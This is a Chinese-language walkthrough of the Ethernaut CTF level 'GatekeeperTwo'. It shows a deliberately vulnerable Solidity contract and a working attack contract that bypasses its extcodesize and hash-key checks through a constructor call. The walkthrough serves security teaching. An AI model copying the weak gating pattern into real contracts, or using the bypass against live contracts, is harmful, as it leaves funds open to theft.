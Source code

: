 # Ethernaut 14-GatekeeperTwo

## 本关目标

- 成为 entrant

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    // msg.sender要和tx.orign不同
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    // 要求合约的调用者不能有代码
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    // 要求传入的_gateKey要和msg.sender的hash相反
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## 解决方案

1. 破解 gateOne， 只需要构造一个 Hack 合约，使用 Hack 合约调用 enter()
2. 破解 gateTwo， Hack 合约只能有 constructor，不能有其他代码
3. 破解 gateTheww，uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))取反即为\_gateKey

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IGateKeeperTwo {
    function entrant() external view returns (address);
    function enter(bytes8) external returns (bool);
}

contract Hack {
    constructor(IGateKeeperTwo target) {
       bytes8 key = bytes8(~uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
        require(target.enter(key), "failed");
    }
}
```
